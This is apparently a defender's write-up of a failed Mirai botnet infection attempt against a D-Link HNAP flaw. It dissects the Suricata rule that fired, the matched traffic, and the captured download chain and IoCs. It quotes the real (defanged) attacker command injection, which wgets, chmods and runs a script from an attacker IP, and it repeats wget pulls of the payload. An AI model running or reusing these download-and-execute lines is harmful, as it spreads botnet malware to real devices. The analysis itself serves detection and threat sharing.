 # Attempted Mirai Infection and Analysis
---

## The Attack

- This began with a "drive by" infection attempt aiming to exploit a D-Link Router vulnerability CVE-2020-15631. Thank fully this bot attack didn't find a D-Link Router and instead found a fully patched web server. The attack failed.  Breaking the initial vulnerability and exploit attempt down is beyond the scope of this project but I will give a brief overview. 
    - This website has some great analysis on this vulnerability:
        - https://musteresel.github.io/posts/2018/03/exploit-hnap-security-flaw-dlink-dir-615.html

### Suricata Alert

- The Rule that fired was the following:
 ```
	alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"ET WEB_SERVER Possible D-Link Router HNAP Protocol Security Bypass Attempt"; flow:established,to_server; urilen:7; http.method; content:"POST"; http.uri; content:"/HNAP1/"; nocase; endswith; fast_pattern; http.header; content:"SOAPAction|3a 20|"; nocase; content:"/HNAP1/"; distance:0; pcre:"/^(?:set|get)/Ri"; content:"DeviceSettings"; within:14; reference:url,www.securityfocus.com/bid/37690; reference:url,doc.emergingthreats.net/2010698; classtype:web-application-attack; sid:2010698; rev:6; metadata:created_at 2010_07_30, updated_at 2020_11_02;)
```
- Lets break this Suricata signature down.
    1. The rule is an "alert" rule looking at http traffic from any port inbound from the variable EXTERNAL_NET to the networks assigned to the variable HOME_NET on any port.
    2.  The flow is set to established which means it will only match on established connections. Direction is "to server." 
    3. We see the "urilen" which sets a uri length of 7 characters. 
    4. We then see a sticky buffer of "http.method" which modifies the content "POST" which come after it. That is telling the logic to look in the http.method field for content of "POST." If the http.method field has a GET or any method other then POST, the logic won't continue to run and the rule won't fire. 
    5. We then see another sticky buffer of "http.uri." Again, this is giving a field for which to look for the content that follows it. In this case its saying look in the "http.uri" field for the content "/HNAP1/". You will notice that their is 7 characters in "/HNAP1/"
   6. We see "nocase" which sounds exactly what it does - makes it not case sensitive.
   7. Next is endswith, which according to the suricata manual it "modifies the content to match exactly at the end of a buffer."
   8.  "fast pattern" is fairly complicated and takes some time to explain. I suggest consorting with the suricata manual if you are interested in what this does. 
   9. We then see "http.header" sticky buffer which says " look at the http.header for the following content "SOAPAction|3a 20|" 
      - notice the |3a 20| . If you put that in cyber chef and decode from hex to ASCII you will notice it translates to the character ":" this is a special character and must be translate to hex in the rule or it will mess up the logic. This is trying to look for "SOAPaction:"
   10. We see another content which again is modified by the preceding http.header sticky buffer. This content is looking for "/HNAP1/.
   11. "distance: 0" is telling the logic to look for the preceding content of /HNAP1/ 0 bits away from the content before /HNAP1/ which in this case is SOAPaction:
     - the Suricata manual has a great picture that explains this concept
![image.png](/.attachments/image-532e61cd-c386-43e3-88e5-dcbf6874e550.png)
    

12.  We then see some pcre regex essentially looking for either "set" or "get" pcre:"/^(?:set|get)/Ri"
13. Right after the PCRE we see another content match looking for "DeviceSettings" This is followed by a distance modifier of "within: 14. This is best explained with another picture
![image.png](/.attachments/image-c6c457e7-6c99-49f2-9ec6-97adf0a4f158.png)

13. Thats it for the logic of the rule. Following the logic we have the Signature ID(SID) and some references and metadata(when the rule was created)

### The Traffic it matched on

![image.png](/.attachments/image-e052bfb3-7be3-4d92-9713-607756a2e185.png)

- As we can see we have a POST as the HTTP Method
- We have /HNAP1/ as the URI
- We have an HTTP header of SOAPaction: with  /HNAP1/ in the header.
- Immediately following /HNAP1/ we have "Get" which the regex will match on and then "DeviceSettings"
- Following DeviceSettings we have the contents of the exploit payload which can change depending on what the threat actor is going to do. 

### The Initial Exploit
Defanged!
```
cd && cd tmp && export PATH=$PATH:. && cd /tmp;wget http://23.94.22[.]13/a/wget.sh;chmod 777 wget.sh;sh wget.sh selfrep.dlink;rm -rf wget.sh`"
```
This looks like a rather simple command injection.
- It does a CD (change directory) and if that executes with no errors it changes directory to the tmp directory.
- Then adds the current path to the PATH variable
- We see a CD to the /tmp directory where it then uses the wget tool to pull down a script titled "wget.sh" from http://23.94.22[.]13/a/wget.sh
- It then changed the permissions on the wget.sh script to 777 or rwxrwxrwx 
- We then see it use sh to execute wget.sh and it follows it all up by deleting itself. 


### Whats in wget.sh?

- To find this out we need to fire up a VM (behind a VPN) and wget this wget.sh script from the attacker webserver. 
    - To that end we can just run the same command (defanged of course)
    - Becareful from here on out. The ELF we eventually will grab can infect linux machines. Only  do this on a machine you can blow up and walk away from or reset. 
```
wget http://23.94.22[.]13/a/wget.sh
```
- Once we have wget.sh we can the cat the contents. 

![wget_sh.png](/.attachments/wget_sh-de81ca11-748b-49d0-ba8f-dc57f28ea875.png)

- Gnarly. Whats this thing trying to do? its rather simple. Its using wget to pull down the secondary payload, changing the permissions on it and executing it. It doesn't know the operating CPU so its trying from ARM to x86_64. It tries to install them all. 

### Whats the secondary payload?

- Lets find out by utilizing wget to pull it down

```
wget http://23.94.22[.]13/x86_64
```
- After we got that payload we can do a few things. 
    - We can start of by running the command "file" to get some details
![image.png](/.attachments/image-d7ca65f2-b5c8-4498-bd9b-6c3902f35225.png)

- Then lets run the "strings" command and see what we can find
    - If we look through all the strings we can see bots.infectedfam[.]cc This looks like potentially C2 domain. We should check that out later. 
![bots_infectedfam_cc_post.png](/.attachments/bots_infectedfam_cc_post-1e7ce95d-55de-4b0d-92dc-69b9b2f2ba99.png)

### Follow Up Analysis

- At this point, We've collected a handful of IoC's. We have IP addresses(both from the original attack and the ones contained in the exploits). We have a domain. We also have some pretty unique strings we may be able to write a yara rule with down the road.  
- Lets investigate that domain. 
    - Just days old. Also proxied through cloudflare. - Smart. Don't exactly want to block Cloudflare IP. Can still block that domain though!
![image.png](/.attachments/image-ab391949-b696-432f-842f-a97e0dac6ea4.png)

- Next we can share this intel with the community by submitting our IoC's as a pulse on AlienVault OTX. I've done so. First Pulse for this domain!
https://otx.alienvault.com/pulse/6215c927cbce007580b75c5e

- I also submitted that ELF to Joes Sandbox for further analysis. You can find the report here:
https://www.joesandbox.com/analysis/576941/0/html

### What I'll be doing now.

- GHIDRA - I'm no programmer or reverse engineer but I'd like to get an even deeper understanding of how this Mirai flavor is working. 
- Yara rules for detection. 

![Ghidra.png](/.attachments/Ghidra-1beaa57c-010a-4612-b0c4-46c43b4d57fe.png)